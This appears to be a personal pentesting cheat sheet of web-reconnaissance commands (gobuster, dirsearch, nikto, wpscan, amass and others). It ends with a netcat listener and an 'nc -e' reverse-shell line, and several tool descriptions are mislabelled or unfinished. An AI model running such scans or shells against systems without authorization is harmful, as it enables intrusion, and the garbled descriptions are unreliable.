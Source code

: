 All commands and links i need to sort.  


Recon  
Find Vuln  
Exploit  
Evlate   
Repeat  
ZAP better then burp  

## Web Enumeration ##
wappalyzer - good plugin for looking at website platforms or software. add this to my hacking soe  

crt.sh - website to search for subdomains.  

curl -u http://website - display website header and info  

whatweb www.site.com - good for looking at website platforms or software.

dirsearch -u http://website - enumerates subdirectories  
gobuster dir -u http://website -w /usr/share/seclist - enumerates subdirectories  
gobuster dns -d http://website -w dns Jhaddix.txt - enumerates subdirectories  
dirbuster is a gui version of the above tools 

sublist3r -d http://website - enumerates subdirectories  (add -t 10 for multithread or faster search)

nikto -h www.site.com  - scans website for platforms or software versions. also mentions where attacks could be possible. 

wpscan --url http://website --enumerate  u for user, p for plugins, t for themes  
wpscan --url http://website --enumerate  vp,vt --plugins-detection aggressive (need api token)  

amass enum -d domain --passive - gives XXXX  

python3 -m http.server 80 -- Start at adhoc webserver, good for quickly sharing files.    
  

## Online Tools ##
https://gchq.github.io/CyberChef/  -  

nc -lvp 1337  
nc -e /bon/sh ip 1337   
